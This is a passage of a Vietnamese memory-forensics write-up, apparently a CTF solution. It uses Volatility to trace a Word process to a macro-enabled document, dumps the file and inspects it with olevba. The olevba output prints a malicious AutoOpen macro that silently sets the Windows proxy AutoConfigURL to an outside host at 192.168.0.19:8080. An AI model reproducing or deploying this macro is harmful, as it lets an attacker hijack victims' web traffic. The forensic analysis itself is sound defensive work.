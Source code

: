 Dùng plugin ```pslist``` để liệt kê tất cả các tiến trình thì thấy ```WINWORD.EXE``` đang chạy

```
volatility -f memory.dmp --profile=Win7SP1x86_23418 pslist
....
0x84d24490 WINWORD.EXE            3248    816     13      434      1      0 2016-11-11 16:14:05 UTC+0000                         
0x84f8a868 OSPPSVC.EXE            3340    456      5      127      0      0 2016-11-11 16:14:09 UTC+0000                         
0x84f6bd40 iexplore.exe           3388    816     20      444      1      0 2016-11-11 16:14:13 UTC+0000                         
0x84d6e390 iexplore.exe           3476   3388     27      698      1      0 2016-11-11 16:14:14 UTC+0000 
```
Dùng plugin ```cmdline``` để trích xuất dòng lệnh (command line) mà một tiến trình đã chạy trong bộ nhớ dump

```
volatility -f memory.dmp --profile=Win7SP1x86_23418 cmdline
....
WINWORD.EXE pid:   3248
Command line : "C:\Program Files\Microsoft Office\Office15\WINWORD.EXE" /n "C:\Users\fraf\Downloads\Very_sexy.docm
```

Ta thấy ```WINWORD.EXE``` đã mở file ```Very_sexy.docm```, giờ dùng plugin ```filescan``` để tìm kiếm file ```Very_sexy.docm``` sau đó kéo về để phân tích

```
volatility -f memory.dmp --profile=Win7SP1x86_23418 filescan | grep "Very_sexy.docm"

Volatility Foundation Volatility Framework 2.6.1
0x000000000eec5988      2      1 RW-r-- \Device\HarddiskVolume2\Users\fraf\Downloads\Very_sexy.docm
0x000000000f3ee038      8      0 RW-r-- \Device\HarddiskVolume2\Users\fraf\Downloads\Very_sexy.docm
```
```
volatility -f memory.dmp --profile=Win7SP1x86_23418 dumpfiles -Q 0x000000000eec5988 -D output

Volatility Foundation Volatility Framework 2.6.1
DataSectionObject 0x0eec5988   None   \Device\HarddiskVolume2\Users\fraf\Downloads\Very_sexy.docm
SharedCacheMap 0x0eec5988   None   \Device\HarddiskVolume2\Users\fraf\Downloads\Very_sexy.docm
```

```
volatility -f memory.dmp --profile=Win7SP1x86_23418 dumpfiles -Q 0x000000000f3ee038 -D output

Volatility Foundation Volatility Framework 2.6.1
DataSectionObject 0x0f3ee038   None   \Device\HarddiskVolume2\Users\fraf\Downloads\Very_sexy.docm
SharedCacheMap 0x0f3ee038   None   \Device\HarddiskVolume2\Users\fraf\Downloads\Very_sexy.docm
```

Vì đây là file word có chứa macro nên ta sẽ dùng ```olevba``` để phân tích macro của file docx này

```
olevba file.None.0x84cb24e8.dat
olevba 0.60.2 on Python 2.7.18 - http://decalage.info/python/oletools
===============================================================================
FILE: file.None.0x84cb24e8.dat
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: u'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub AutoOpen()
    Dim myWS As Object
    Set myWS = CreateObject("WScript.Shell")
    myWS.RegWrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\AutoConfigURL", "http://192.168.0.19:8080/BenNon.prox", "REG_SZ"
```